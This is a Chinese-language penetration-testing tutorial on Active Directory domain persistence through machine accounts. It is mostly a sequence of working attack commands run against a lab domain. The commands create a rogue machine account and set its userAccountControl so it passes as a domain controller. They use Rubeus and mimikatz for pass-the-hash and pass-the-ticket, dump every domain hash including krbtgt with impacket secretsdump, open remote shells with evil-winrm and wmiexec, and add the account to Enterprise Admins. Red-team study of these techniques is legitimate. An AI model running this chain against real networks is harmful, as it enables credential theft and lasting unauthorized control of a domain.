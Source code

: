 
## 如何使用机器账户进行域维权

- - -

## [0x00 前言](#toc_0x00)

机器账户在许多技术中可以用于提权或横向移动，如使用机器账户的委派进行 dcsyn 了上述作用，使用机器账户也可进行维权操作。我们可以将任意计算机账户添加到高权限组 (例如 Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的 userAccountControl 属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如 Dcsync 拖取域内 hash。

除了上述作用，使用机器账户也可进行域维权操作。我们可以将任意计算机账户添加到高权限组 (例如 Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的`userAccountControl`属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如 Dcsync 拖取域内 hash。

## [0x01 userAccountControl 说明](#toc_0x01-useraccountcontrol)

默认的情况下，域中的标准用户最多可以创建 10 个机器账户，这是由**ms-DS-MachineAccountQuota**进行设定的。我们可以使用 Powermad 等工具从加入域和未加入域的主机中进行添加账户操作。但为了让机器账户在域中显示为域控制器，我们还需要将`userAccountControl`属性设置为 0x2000(SERVER\_TRUST\_ACCOUNT) 的值。0x2000 换算为十进制数字为 8192.修改此属性需要域管理员级别的权限。下面我们从 ADSI 编辑器中进行修改，改为 8192  
[![image.png](assets/1698894631-574c27196eb8c4ce09ea680f655ffa90.png)](https://storage.tttang.com/media/attachment/2022/02/19/da789952-56e5-4424-8a42-861b724b2672.png)

## [0x02 PowerMad+Active Directory 组合：](#toc_0x02-powermadactive-directory)

### [添加机器账户](#toc_)

我们在进行维权时，可以从利用工具从命令行创建机器账户。例如 Standln、SharpMad 以及 PowerMad 等工具；下面展示如何利用 PowerMad 在域内添加一个机器账户。

```plain
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount Nayon -Domain attack.local -DomainController dc.attack.local
```

[![image.png](assets/1698894631-fe369f18f15e414c7cfd8d3f46a11bf2.png)](https://storage.tttang.com/media/attachment/2022/02/19/5386ea9f-a3b5-496e-9177-b79d6bcdfc34.png)  
此时我们便添加机器账户成功了，利用如下命令查看：

```plain
net group "domain computers" /domain
```

[![image.png](assets/1698894631-45925d56f973b23cffc2ff57f74bb4a4.png)](https://storage.tttang.com/media/attachment/2022/02/19/cb758965-fbeb-423e-825a-478fce1708c9.png)

### [修改机器账户 userAccountControl 属性值](#toc_useraccountcontrol)

我们所创建的这台机器账户 primarygroupid 经过查询可知是 515，他是域组的 RID，表示这是一台域计算机，利用 Active-Module 模块，使用域管权限账户为计算机账户 Nayon 修改`userAccountControl`值为 8192，则 primarygroupid 将更改为属于域控制器（可写）的 516。

```plain
Get-ADComputer Nayon -pro * | Select-object name, primarygroupid, useraccountcontrol
Set-ADComputer Nayon -replace @{ "userAccountcontrol" = 8192 }
```

[![image.png](assets/1698894631-d78f511a7a2fe639968ed71b92e5b8f6.png)](https://storage.tttang.com/media/attachment/2022/02/19/df2793c3-84a9-4005-be66-2f932c5d597b.png)

此处为执行效果。

### [获得机器账户 hash](#toc_hash)

由于我们已知机器账户的密码，因此我们可以利用它的 NTLM、aes128、aes256 hash 来进行 pth，用于获得一个拥有域控制器权限的会话。

利用 Rubes 将 Nayon 账户的明文密码转为 NTLM hash，用于维权时进行的 pth。

```plain
Rubeus.exe hash /user:Nayon /password:Password@1! /domain:attack.local
```

[![image.png](assets/1698894631-8f4c55a07a3ed0f29d3b2aaf45006174.png)](https://storage.tttang.com/media/attachment/2022/02/19/e24b6e10-0f8b-453a-a9d4-8f0a51cf4ccf.png)  
如图所示，成功拿到了机器账户的 hash。

### [利用方式：](#toc__1)

#### [PTH 传递获得权限](#toc_pth)

在域内机器上利用 mimikatz 进行 pth 攻击，成功弹回具有 Nayon 用户权限的新会话。

```plain
sekurlsa::pth /user:Nayon /domain:attack.local /aes128:95F9380561068098A673F425207EFA0D
```

[![image.png](assets/1698894631-35429b832ffec4a3821169371e123d90.png)](https://storage.tttang.com/media/attachment/2022/02/19/46e96116-5e33-41e4-832f-8bd5c06b13de.png)  
**注意：此处拿到的会话，唯有域用户处于高权限组内才可使用 dcsync 获得域内 hash。**

#### [利用 PTT 获得权限](#toc_ptt)

由于 PTH 是需要本地管理员权限的，若我们此时连本地管理员权限都没有，我们还可以使用 mimikatz 自带的 ptt 功能拿到相应权限。

**注意：此处拿到的会话，本人本地测试即使是将机器用户的`userAccountConrol`属性值改为 8192 也无法执行 dcsync 获得域内 hash，唯有划入域内高权限组内可以使用机器账户权限执行 dcsync。**

利用利用 Rubes 申请拿到机器账户的 hash

```plain
Rubeus.exe hash /user:Nayon /password:123456 /domain:attack.local
```

使用 keke 申请 tgt 票据，用于下一步的 ptt 攻击

```plain
tgt::ask /user:Nayon2 /domain:attack.local /ntlm:32ED87BDB5FDC5E9CBA88547376818D4
```

[![image.png](assets/1698894631-a5f7c1a85d1897ed828c3e27888b7084.png)](https://storage.tttang.com/media/attachment/2022/02/19/cde4091a-1b95-4430-80f7-baa9fcfa77c5.png)

```plain
kerberos::ptt  TGT_Nayon@ATTACK.LOCAL_krbtgt~attack.local@ATTACK.LOCAL.kirbi
```

[![image.png](assets/1698894631-7ff2850feb92c44ed2a0ecbd110c54c4.png)](https://storage.tttang.com/media/attachment/2022/02/19/8092c95f-47e4-474e-a79a-023103564a12.png)  
此时成功拿到域内 hash

#### [利用 impacket 套件执行 dcsync](#toc_impacketdcsync)

使用 Impacket 套件中的 secretsdump.py 脚本，结合域内机器账户的凭证拖取域内 hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'Password@1!'@10.10.10.165 -just-dc
```

[![image.png](assets/1698894631-4e8eceb048d8b5db4acbbd1cd180f7f1.png)](https://storage.tttang.com/media/attachment/2022/02/19/07bf8a43-30cb-4226-a8d5-9da859f3310b.png)  
利用其中的域管 NTLM hash 与域控机进行通信

#### [Evil-WinRM 通过 WinRM 远程链接](#toc_evil-winrmwinrm)

前提是域管开启 WinRM 服务，默认端口 5985

指定域管用户以及域管用户的 NTLM hash 远程链接

```plain
evil-winrm -i 10.10.10.165 -u administrator -H dbf36575210cc5a38ab4050cc6a2e9aa
```

[![image.png](assets/1698894631-4bc42f9e8d83f85ed04a276867f05930.png)](https://storage.tttang.com/media/attachment/2022/02/19/bce64d3c-5ea0-4001-ab7e-284f3ad009fa.png)

#### [Impacket 套件 wmiexec.py 远程链接](#toc_impacketwmiexecpy)

```plain
python3 wmiexec.py -hash dbf36575210cc5a38ab4050cc6a2e9aa administrator@10.10.10.165
```

[![image.png](assets/1698894631-ebef7f9e3240b7e2956a99ba928de237.png)](https://storage.tttang.com/media/attachment/2022/02/19/a2efb02a-10bc-4e09-abce-170d6400fcf6.png)

### [加入高权限用户组用以维权](#toc__2)

除去域用户之外，域内机器账户也可以添加到高权限用户组中用以维权。利用 Active Directory 模块查询域管用户所在的用户组。

```plain
Get-ADGroupMember "administrators"
```

[![image.png](assets/1698894631-d13cc292a588fa657ca7253c64d88c3f.png)](https://storage.tttang.com/media/attachment/2022/02/19/0f1039f6-54c2-42a2-974a-b8e0bddfa8fa.png)

使用域管权限的会话添加机器账户 Nayon$到高权限用户组内。

可加入 Enterprise Admins、Administrators、Domain Admins 等高权限组内用以维权。

```plain
net group "Enterprise admins" Nayon$ /add /domain
```

利用 net group 查看是否被添加成功

```plain
net group "Enterprise admins" /domain
```

[![image.png](assets/1698894631-8488cb4aa17aa62247c338fadc00eaf4.png)](https://storage.tttang.com/media/attachment/2022/02/19/2e9f88bc-cade-430c-8a01-ae5e39dd59aa.png)

此时我们便可以使用 Impacket 中的 secretsdump 项目获得域内 hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'123456'@10.10.10.165 -just-dc-user krbtgt
```

[![image.png](assets/1698894631-c6cd97c0ef620c54209f5b646598cbfe.png)](https://storage.tttang.com/media/attachment/2022/02/19/956559a3-f651-4e19-99b2-01dbde141504.png)

参考链接： 
[https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)

- - -

